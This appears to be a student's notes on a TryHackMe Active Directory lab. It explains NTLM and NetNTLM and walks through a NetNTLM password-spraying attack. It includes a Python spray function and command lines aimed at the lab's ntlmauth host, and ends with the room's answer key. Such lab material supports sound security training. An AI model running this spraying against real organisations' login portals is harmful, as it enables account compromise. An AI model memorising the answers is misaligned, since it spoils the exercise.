NTLM and NetNTLM  

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication mechanism is heavily used by the services on a network. However, services that use NetNTLM can also be exposed to the internet. The following are some of the popular examples:

- Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
- Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
- Exposed VPN endpoints that were integrated with AD.
- Web applications that are internet-facing and make use of NetNTLM.  
    

NetNTLM, also often referred to as Windows Authentication or just NTLM Authentication, allows the application to play the role of a middle man between the client and AD. All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.

This means that the application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller. This process is shown in the diagram below:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/c9113ad0ff443dd0973736552e85aa69.png)  

Brute-force Login Attacks  

As mentioned in Task 2, these exposed services provide an excellent location to test credentials discovered using other means. However, these services can also be used directly in an attempt to recover an initial set of valid AD credentials. We could perhaps try to use these for brute force attacks if we recovered information such as valid email addresses during our initial red team recon.

Since most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, we need to perform a password spraying attack. Instead of trying multiple different passwords, which may trigger the account lockout mechanism, we choose and use one password and attempt to authenticate with all the usernames we have acquired. However, it should be noted that these types of attacks can be detected due to the amount of failed authentication attempts they will generate.  

You have been provided with a list of usernames discovered during a red team OSINT exercise. The OSINT exercise also indicated the organisation's initial onboarding password, which seems to be "Changeme123". Although users should always change their initial password, we know that users often forget. We will be using a custom-developed script to stage a password spraying against the web application hosted at this URL: [http://ntlmauth.za.tryhackme.com](http://ntlmauth.za.tryhackme.com).

Navigating to the URL, we can see that it prompts us for Windows Authentication credentials:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/5f18e5326d5a50d656d1827221bdcac7.png)

**Note:** _Firefox's Windows Authentication plugin is incredibly prone to failure. If you want to test credentials manually, Chrome is recommended._

We could use tools such as [Hydra](https://github.com/vanhauser-thc/thc-hydra) to assist with the password spraying attack. However, it is often better to script up these types of attacks yourself, which allows you more control over the process. A base python script has been provided in the task files that can be used for the password spraying attack. The following function is the main component of the script:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

This function takes our suggested password and the URL that we are targeting as input and attempts to authenticate to the URL with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application would respond with a 200 HTTP (OK) code. If the pair is invalid, the application will return a 401 HTTP (Unauthorised) code.

Password Spraying  

If you are using the AttackBox, the password spraying script and usernames textfile is provided under the `/root/Rooms/BreachingAD/task3/` directory. We can run the script using the following command:

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

```
python3 passwordsprayer/ntlm_passwordspray.py -u passwordsprayer/usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com
```

![[Pasted image 20240304100346.png]]


We provide the following values for each of the parameters:

{*userfile*} - Textfile containing our usernames - "usernames.txt"
{*fqdn*} - Fully qualified domain name associated with the organisation that we are attacking - "za.tryhackme.com"
{*password*} - The password we want to use for our spraying attack - "Changeme123"
{*attackurl*} - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"

Using these parameters, we should get a few valid credentials pairs from our password spraying attack.

```
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```


![[Pasted image 20240304002708.png]]

Using a combination of OSINT and NetNTLM password spraying, we now have our first valid credentials pairs that could be used to enumerate AD further!  

Answer the questions below

| Question                                                                                               | Answer         |
| ------------------------------------------------------------------------------------------------------ | -------------- |
| What is the name of the challenge-response authentication mechanism that uses NTLM?                    | NetNTLM        |
| What is the username of the third valid credential pair found by the password spraying script?         | gordon.stevens |
| How many valid credentials pairs were found by the password spraying script?                           | 4              |
| What is the message displayed by the web application when authenticating with a valid credential pair? | Hello World    |

![[Pasted image 20240304100703.png]]
